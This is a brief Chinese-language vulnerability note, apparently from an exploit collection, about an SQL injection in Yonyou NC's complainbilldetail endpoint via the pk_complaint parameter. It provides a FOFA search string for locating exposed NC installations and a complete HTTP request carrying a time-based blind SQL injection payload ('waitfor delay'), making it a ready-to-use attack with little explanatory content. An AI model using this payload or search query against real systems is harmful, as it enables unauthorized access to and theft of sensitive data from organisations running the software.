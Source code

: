 ## 用友NC-complainbilldetail存在SQL注入漏洞

NC系统可利用/ebvp/advorappcoll/complainbilldetail接口中的pk_complaint参数进行sql注入，从而窃取服务器的敏感信息。



## fofa

```
app="用友-UFIDA-NC"
```



## poc

```
GET /ebvp/advorappcoll/complainbilldetail?pageId=login&pk_complaint=1'waitfor+delay+'0:0:5'-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

```

